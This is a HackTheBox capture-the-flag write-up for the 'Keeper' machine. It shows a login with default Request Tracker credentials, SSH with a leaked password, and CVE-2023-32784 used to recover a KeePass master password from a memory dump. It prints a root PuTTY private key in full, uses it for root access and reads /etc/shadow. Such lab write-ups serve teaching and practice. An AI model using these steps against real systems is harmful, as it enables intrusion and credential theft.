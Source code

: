 # Keeper - HackTheBox - Writeup
Linux, 20 Base Points, Easy

![info.JPG](images/info.JPG)

## Machine

![‏‏Keeper.JPG](images/Keeper.JPG)
 
## TL;DR

To solve this machine, we start by using `nmap` to enumerate open services and find ports `22`, and `80`.

***User***: Discovered the SSH password for the `lnorgaard` user on the `Request Tracker system's` user information page.

***Root***: Located a zip file named `RT30000.zip` containing a `KeePass` database file and a memory dump. Utilized `CVE-2023-32784` to extract the password from the memory dump. Additionally, identified the `Putty User-Key-File` for the `root` user in the `KeePass` database. Converted it to SSH private key using `puttygen`.

![pwn.JPG](images/pwn.JPG)


## Keeper Solution

### User

Let's begin by using `nmap` to scan the target machine:

```console
┌─[evyatar9@parrot]─[/hackthebox/Keeper]
└──╼ $ nmap -sV -sC -oA nmap/Keeper 10.10.11.227
Starting Nmap 7.93 ( https://nmap.org ) at 2023-09-21 23:15 IDT
Nmap scan report for 10.10.11.227
Host is up (0.074s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 3539d439404b1f6186dd7c37bb4b989e (ECDSA)
|_  256 1ae972be8bb105d5effedd80d8efc066 (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-server-header: nginx/1.18.0 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

```

Observing port `80`, we see that the following web page is hosted:

![port80.JPG](images/port80.JPG)

And the URL is http://tickets.keeper.htb/rt/. Let's append `tickets.keeper.htb` to `/etc/hosts` and navigate to the link:

![tickets.JPG](images/tickets.JPG)

We located the default credentials at https://forum.bestpractical.com/t/forgot-admin-password-of-rt/33451, which are `root:password`:

![home.JPG](images/home.JPG)

On http://tickets.keeper.htb/rt/Admin/Users/ page, we discovered the following users:

![users.JPG](images/users.JPG)

If we access the user information page at http://tickets.keeper.htb/rt/Admin/Users/Modify.html?id=27, we can view the user's password: `Welcome2023!`:

![password.JPG](images/password.JPG)

The provided password successfully grants SSH access:

```console
┌─[evyatar9@parrot]─[/hackthebox/Keeper]
└──╼ $ ssh lnorgaard@10.10.11.227
The authenticity of host '10.10.11.227 (10.10.11.227)' can't be established.
ECDSA key fingerprint is SHA256:apkh696g2/uAeckIXd6eFvgmvmPqoEj41w4ia45OfrI.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.11.227' (ECDSA) to the list of known hosts.
lnorgaard@10.10.11.227's password: 
Welcome to Ubuntu 22.04.3 LTS (GNU/Linux 5.15.0-78-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage
You have mail.
Last login: Tue Aug  8 11:31:22 2023 from 10.10.14.23
lnorgaard@keeper:~$ cat user.txt 
434b23c8b9cf23b8b03cf58fc72887ad
```

And we get the user flag `434b23c8b9cf23b8b03cf58fc72887ad`.

### Root

In `lnorgaard's` home directory, we find the following files:
```console
lnorgaard@keeper:~$ ls
RT30000.zip  user.txt
```

After unzipping the `RT30000.zip` file, we can observe the following contents:
```console
lnorgaard@keeper:/tmp$ unzip RT30000.zip 
Archive:  RT30000.zip
  inflating: KeePassDumpFull.dmp     
 extracting: passcodes.kdbx       
```

We've identified a [KeePass](https://keepass.info/) memory dump file and a `kdbx` file, which is the KeePass database file.

KeePass is an open-source password manager. You can download the Linux client from https://keepass.info/download.html.

Upon opening the `kdbx` file, we'll require the file's master key:

![masterkey.JPG](images/masterkey.JPG)

We can use `CVE-2023-32784`. In KeePass 2.x versions prior to 2.54, it's possible to retrieve the cleartext master password from a memory dump.

For this, we can employ the following POC: https://github.com/CMEPW/keepass-dump-masterkey:

```console
┌─[evyatar9@parrot]─[/hackthebox/Keeper/keepass-dump-masterkey]
└──╼ $ python3 poc.py ../KeePassDumpFull.dmp 
2023-09-22 00:44:45,740 [.] [main] Opened ../KeePassDumpFull.dmp
Possible password: ●,dgr●d med fl●de
Possible password: ●ldgr●d med fl●de
Possible password: ●`dgr●d med fl●de
Possible password: ●-dgr●d med fl●de
Possible password: ●'dgr●d med fl●de
Possible password: ●]dgr●d med fl●de
Possible password: ●Adgr●d med fl●de
Possible password: ●Idgr●d med fl●de
Possible password: ●:dgr●d med fl●de
Possible password: ●=dgr●d med fl●de
Possible password: ●_dgr●d med fl●de
Possible password: ●cdgr●d med fl●de
Possible password: ●Mdgr●d med fl●de
```

We've identified potential passwords; however, the POC is unable to recognize the character `●` because it's not in English.

On the user information page http://tickets.keeper.htb/rt/Admin/Users/Modify.html?id=27:

![password.JPG](images/password.JPG)

In the 'Extra Info' section, it states 'Helpdesk Agent from Korsbæk' (Denmark).

Upon searching for `●Mdgr●d med fl●de`, I came across the following page https://en.wiktionary.org/wiki/r%C3%B8dgr%C3%B8d_med_fl%C3%B8de, which contains the term `rødgrød med fløde` (Red porridge with cream). This happens to be the password for the `kdbx` file:

![keepass.JPG](images/keepass.JPG)

We've located the `Putty User-Key-File` of the `root` user. Now, we need to proceed with converting it into an SSH private key as outlined below:

```console
┌─[evyatar9@parrot]─[/hackthebox/Keeper]
└──╼ $ cat userkey.ppk
PuTTY-User-Key-File-3: ssh-rsa
Encryption: none
Comment: rsa-key-20230519
Public-Lines: 6
AAAAB3NzaC1yc2EAAAADAQABAAABAQCnVqse/hMswGBRQsPsC/EwyxJvc8Wpul/D
8riCZV30ZbfEF09z0PNUn4DisesKB4x1KtqH0l8vPtRRiEzsBbn+mCpBLHBQ+81T
EHTc3ChyRYxk899PKSSqKDxUTZeFJ4FBAXqIxoJdpLHIMvh7ZyJNAy34lfcFC+LM
Cj/c6tQa2IaFfqcVJ+2bnR6UrUVRB4thmJca29JAq2p9BkdDGsiH8F8eanIBA1Tu
FVbUt2CenSUPDUAw7wIL56qC28w6q/qhm2LGOxXup6+LOjxGNNtA2zJ38P1FTfZQ
LxFVTWUKT8u8junnLk0kfnM4+bJ8g7MXLqbrtsgr5ywF6Ccxs0Et
Private-Lines: 14
AAABAQCB0dgBvETt8/UFNdG/X2hnXTPZKSzQxxkicDw6VR+1ye/t/dOS2yjbnr6j
oDni1wZdo7hTpJ5ZjdmzwxVCChNIc45cb3hXK3IYHe07psTuGgyYCSZWSGn8ZCih
kmyZTZOV9eq1D6P1uB6AXSKuwc03h97zOoyf6p+xgcYXwkp44/otK4ScF2hEputY
f7n24kvL0WlBQThsiLkKcz3/Cz7BdCkn+Lvf8iyA6VF0p14cFTM9Lsd7t/plLJzT
VkCew1DZuYnYOGQxHYW6WQ4V6rCwpsMSMLD450XJ4zfGLN8aw5KO1/TccbTgWivz
UXjcCAviPpmSXB19UG8JlTpgORyhAAAAgQD2kfhSA+/ASrc04ZIVagCge1Qq8iWs
OxG8eoCMW8DhhbvL6YKAfEvj3xeahXexlVwUOcDXO7Ti0QSV2sUw7E71cvl/ExGz
in6qyp3R4yAaV7PiMtLTgBkqs4AA3rcJZpJb01AZB8TBK91QIZGOswi3/uYrIZ1r
SsGN1FbK/meH9QAAAIEArbz8aWansqPtE+6Ye8Nq3G2R1PYhp5yXpxiE89L87NIV
09ygQ7Aec+C24TOykiwyPaOBlmMe+Nyaxss/gc7o9TnHNPFJ5iRyiXagT4E2WEEa
xHhv1PDdSrE8tB9V8ox1kxBrxAvYIZgceHRFrwPrF823PeNWLC2BNwEId0G76VkA
AACAVWJoksugJOovtA27Bamd7NRPvIa4dsMaQeXckVh19/TF8oZMDuJoiGyq6faD
AF9Z7Oehlo1Qt7oqGr8cVLbOT8aLqqbcax9nSKE67n7I5zrfoGynLzYkd3cETnGy
NNkjMjrocfmxfkvuJ7smEFMg7ZywW7CBWKGozgz67tKz9Is=
Private-MAC: b0a0fd2edf4f0e557200121aa673732c9e76750739db05adc3ab65ec34c55cb0
┌─[evyatar9@parrot]─[/hackthebox/Keeper]
└──╼ $ puttygen userkey.ppk -O private-openssh -o id_rsa
┌─[evyatar9@parrot]─[/hackthebox/Keeper]
└──╼ $ ssh -i idrsa root@10.10.11.227
Welcome to Ubuntu 22.04.3 LTS (GNU/Linux 5.15.0-78-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage
Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings

You have new mail.
Last login: Tue Aug  8 19:00:06 2023 from 10.10.14.41
root@keeper:~# cat root.txt 
9dc5b221bc49eeba2a78259f0de5f9cd
```

And we get the root flag `9dc5b221bc49eeba2a78259f0de5f9cd`.


PDF password
```console
root@keeper:~# cat /etc/shadow | grep root
$y$j9T$ZskeM1pGHOyGxzc3pg/bg/$jCd9wfODgoaD9Ax.4Pd9e3MTLOq9.FD3hf9cpM.VBM5
```